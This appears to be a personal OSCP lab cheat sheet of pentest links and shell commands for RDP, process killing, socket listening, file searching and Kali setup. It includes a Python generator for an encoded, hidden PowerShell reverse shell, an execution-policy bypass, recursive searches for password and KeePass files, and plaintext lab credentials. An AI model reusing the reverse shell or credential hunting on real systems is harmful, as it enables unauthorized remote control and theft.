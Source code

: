 ## Quick Notes

## Links

- [Payload All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/)
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/)
- [Markdown Reference](https://wordpress.com/support/markdown-quick-reference/)
- [Report Maker](https://github.com/noraj/OSCP-Exam-Report-Template-Markdown/tree/master)
### Random things 

### Remote Desktop Specific

```
xfreerdp /cert-ignore /compression /auto-reconnect /u:dmzadmin /p:SlimGodhoodMope /v:192.168.188.191 /w:1600 /h:800 

or 

rdesktop -z -P -x m -u dmzadmin -p SlimGodhoodMope 192.168.188.191 -r 

```

### Powershell Bypass Policy
```
Do this to run powershell:
powershell -ExecutionPolicy Bypass -File GetCLSID.ps1
```
### Kill a Process
```

To kill a port process on windows:

netstat -ano | findstr :<PORT>
taskkill /PID <PID> /F

To kill a port process on Kali:

sudo fuser -k 81/udp
```

### Port Listening

```
UNIX Domain Socket and How to listen it? 

 Use one of the option

1 - nc -lU <socket path>

nc: We all know this..

-l: This option tells netcat to operate in listening mode, which means it will listen for incoming connections.

-U: This option specifies that the listener should use Unix domain sockets. Unix domain sockets are a type of inter-process communication mechanism on Unix-like operating systems. They are used for communication between processes on the same host.

<socket path>: This is the path to the Unix domain socket that socat will listen on, for example "/tmp/s"

2 - socat - UNIX-LISTEN:<socket path>

socat: We all know this.

UNIX: Indicates that the endpoint will be a Unix domain socket.

LISTEN: Specifies that socat should listen for incoming connections on the socket.

<socket path>: As explianed before.


```
### Find Things
```

To find things:

locate something
find / -name exact_name>/dev/null
find /home -name *.jpg

-O1 – (Default) filter based on file name first
-O2 – File name first, then file-type
-O3 – Allow find to automatically re-order the search based on efficient use of resources and likelihood of success
-maxdepth X – Search this directory along with all sub-directories to a level of X
-iname – Search while ignoring text case.
-not – Only produce results that don’t match the test case
-type f – Look for files
-type d – Look for directories


To search for text within files:
grep mail /etc/passwd


On Windows:

Get-ChildItem -Path C:\ -Include *.kdbx* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *proof.txt* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *password* -File -Recurse -ErrorAction SilentlyContinue

FINDSTR /i /r /c:"hello.*goodbye" /c:"goodbye.*hello" Demo.txt

FIND [SWITCH] "String" [Pathname/s]

1. /v – This switch will show any lines that don’t contain the string of words you specified.
2. /c – This switch tells the find tool to count how many lines contain your search terms.
3. /n – This switch shows the numbers that correspond with the lines.
4. /i – This switch tells find to ignore the case of text you are searching for.
```


### Fix Kali Copy Paste Issue
```
Kali VM Fix Copy/Paste:

1. `sudo apt-get autoremove open-vm-tools`
2. Install VMware Tools by following the usual method (`Virtual Machine --> Reinstall VMWare Tools`)
3. Reboot the VM
4. `sudo apt-get install open-vm-tools-desktop`
5. Reboot the VM, after the reboot copy/paste and drag/drop will work!



Quick Python Powershell Reverse Shell generator
---

import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.164",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```


### Show Tun0 IP Toolbar

```
sudo apt install xfce4-genmon-plugin

Generic Monitor -> Properties

/opt/showtun0ip.sh

---
ADDR=$(ip addr | grep tun0|grep inet|awk '{print $2}'|cut -d "/" -f 1)
echo "$ADDR" | sed 's/$/ /g'


```


## ProxyChains

```

Nomrally used with chisel, so standard:

socks5 127.0.0.1 1080

Also, squid proxy for example with username + password after ip and port:

http 192.168.219.224 3128 ext_acc DoNotShare!SkyLarkLegacyInternal2008
```


## Reading Files

```
Linux just use cat, mousepad, nano, vim

Also, if you need to add a line to a file, but don't have nano editor you can:

echo "Something to append" >> filename

Windows use more or less... or type <filename> | more


```